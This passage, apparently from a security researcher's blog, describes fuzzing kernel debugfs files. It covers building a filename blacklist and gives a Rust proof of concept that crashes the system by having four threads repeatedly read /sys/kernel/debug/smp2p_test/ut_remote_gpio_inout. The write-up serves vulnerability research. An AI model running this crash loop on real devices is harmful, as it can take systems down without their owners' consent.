 ```

```

#### Developing blacklist

Okay so now we have a log of all files we’re fuzzing, and they’re confirmed by the server so we don’t lose anything. Lets set it into single threaded mode so we don’t have to worry about race conditions for now.

We’ll see it frequently gets hung up on files. We’ll make note of the files it gets hung up on and start developing a blacklist. This takes some manual labor, and usually there are a handful (5-10) files we need to put in this list. I typically make my blacklist based on the start of a filename, thus I can blacklist entire directories based on `starts_with` matching.

#### Back to fuzzing

So when fuzzing the last file we saw touched was `/sys/kernel/debug/smp2p_test/ut_remote_gpio_inout` before a crash.

Let’s hammer this in a loop… and it worked! So now we can develop a fully self contained PoC:

```
use std::fs::File;
use std::io::Read;

fn thrasher() {
    // Buffer to read into
    let mut buf = [0x41u8; 8192];

    let fn = "/sys/kernel/debug/smp2p_test/ut_remote_gpio_inout";

    loop {
        if let Ok(mut fd) = File::open(fn) {
            let _ = fd.read(&mut buf);
        }
    }
}

fn main() {
    // Make fuzzing threads
    let mut threads = Vec::new();
    for _ in 0..4 {
        threads.push(std::thread::spawn(move || thrasher()));
    }

    // Wait for all threads to exit
    for thr in threads {
        let _ = thr.join();
    }
}


```
